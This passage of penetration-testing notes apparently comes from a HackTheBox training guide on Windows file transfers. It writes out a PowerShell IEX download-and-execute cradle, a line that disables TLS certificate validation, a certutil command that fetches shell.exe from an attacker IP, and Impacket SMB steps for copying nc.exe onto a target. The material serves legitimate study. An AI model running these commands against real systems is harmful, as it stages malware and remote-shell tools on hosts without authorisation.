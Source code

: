 **Error 2: Certificate Trust Error for SSL/TLS**
```powershell
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust
relationship for the SSL/TLS secure channel."
At line:1 char:1
+ IEX(New-Object Net.WebClient).DownloadString('https://raw.githubuserc ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : WebException

# Fix
PS C:\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

---
# certutil
```cmd
certutil -urlcache -split -f http://10.8.139.254/shell.exe shell.exe
```

You can also **Encode/Decode** files in Base64 with certutil:-
```cmd
certutil -encode file1 encodedfile

certutil -decode encodedfile file2
```

---
# SMB Downloads
1) Create SMB Server using *Impacket* with Username & Password
```sh
# In /opt/impacket/example
python smbserver.py share -smb2support /tmp/smbshare -user test -password test
```

2) Mount SMB Server
```powershell
C:\htb> net use n: \\192.168.1.101\share /user:test test

The command completed successfully.

C:\htb> copy n:\nc.exe
        1 file(s) copied.

# Note: You can also mount the SMB server if you receive an error when you use `copy filename \\IP\sharename`
```

---